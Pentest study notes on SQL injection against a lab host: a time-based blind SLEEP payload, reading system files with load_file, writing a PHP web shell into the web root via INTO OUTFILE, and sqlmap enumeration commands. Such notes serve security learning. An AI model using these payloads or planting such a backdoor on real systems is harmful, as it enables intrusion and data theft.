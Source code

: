   
  
### Time-Based Blind SQLi:
Similar to Boolean-Based, but the time it takes for the query to complete indicates whether the the query is correct or not.  
  
Time delay method SLEEP(x) is added alongside UNION statement, whereby SLEEP(x) will only get executed upon a successful UNION SELECT statement.  
```sql
false_user' UNION SELECT SLEEP(5);--
```
  
Can then craft enumeration queries as shown above ^^  
  
  
### Code Execution:
Depends on OS, service privileges, & filesystem permissions.  
  
Can use [load_file](https://www.exploit-db.com/papers/14635) and _Into OUTFILE_ functions to read from/ write to a file on the underlying OS.  
  
Read from hosts file:  
```sql
http://192.168.xxx.10/debug.php?id=1 UNION ALL SELECT 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```
 
Writing a PHP backdoor to the web server:  
```sql
http://192.168.xxx.10/debug.php?id=1 UNION ALL SELECT 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```


If the above works, we can access the backdoor:  
```null
http://192.168.xxx.10/backdoor.php?cmd=ipconfig
```

  
  
### Automation ([sqlmap](sqlmap.md)):

See if vuln exists: (Can specify parameter w/ **-p**)  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1"
```

Enumerate available databases:  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" --dbs
```

Enumerate given database's tables:  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" -D webappdb --tables
```

Enumerate given db's table's columns:  
```bash
sqlmap -u "http://192.168.xxx.10/debug.php?id=1" -D webappdb -T users --columns
```
  